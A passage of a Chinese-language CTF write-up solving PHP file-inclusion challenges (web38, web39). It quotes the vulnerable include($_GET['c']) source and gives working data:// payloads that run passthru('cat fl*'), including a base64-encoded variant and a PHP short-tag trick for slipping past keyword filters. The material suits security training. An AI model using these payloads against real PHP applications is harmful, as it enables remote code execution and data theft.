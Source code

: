 payload:

```php
data://text/plain,<?php passthru('cat fl*');?>
```

### web38

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了`php`字符，使用base64编码就可以了

```php
data://text/plain;base64,PD9waHAgcGFzc3RocnUoJ2NhdCBmbConKTs/Pg==
```

```php
php短标签
当过滤了php时，我们可以将<?php ?> 换成<?= ?>,代表<?php echo..?>
```

```php
data://text/plain,<?= passthru('cat fl*');?>
```

### web39

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    } 
}else{
    highlight_file(__FILE__);
}
```

继续使用data协议

payload：

```php
data://text/plain,<?php passthru('cat fl*');?>
```
